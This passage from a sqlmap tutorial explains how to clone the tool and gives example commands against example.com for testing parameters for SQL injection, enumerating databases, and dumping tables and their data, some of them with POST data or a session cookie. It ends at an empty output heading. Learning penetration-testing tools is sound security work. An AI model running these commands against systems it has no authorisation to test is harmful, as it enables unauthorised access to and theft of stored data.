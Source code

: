 If you need to update or download the latest version, you can clone the repository from GitHub:

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

### Basic Usage

The basic syntax for using SQLMap is:

```bash
sqlmap -u <target_url> [options]
```

- `-u <target_url>`: Specifies the target URL to test for SQL injection.

### Examples

1. **Simple SQL Injection Test**:
   To test a URL for SQL injection vulnerabilities, you can use:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1"
   ```

   This command will check the `id` parameter for vulnerabilities.

2. **Using POST Data**:
   If the application uses POST requests, you can specify the data like this:

   ```bash
   sqlmap -u "http://example.com/page.php" --data "username=admin&password=1234"
   ```

3. **Enumerating Databases**:
   To enumerate the databases on the target server, you can use:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1" --dbs
   ```

4. **Dumping a Specific Database**:
   Once you know the database name, you can dump its tables:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1" -D <database_name> --tables
   ```

   To dump data from a specific table:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1" -D <database_name> -T <table_name> --dump
   ```

5. **Using a Cookie**:
   If the application requires a session cookie, you can include it:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1" --cookie "PHPSESSID=abc123"
   ```

### Example Output
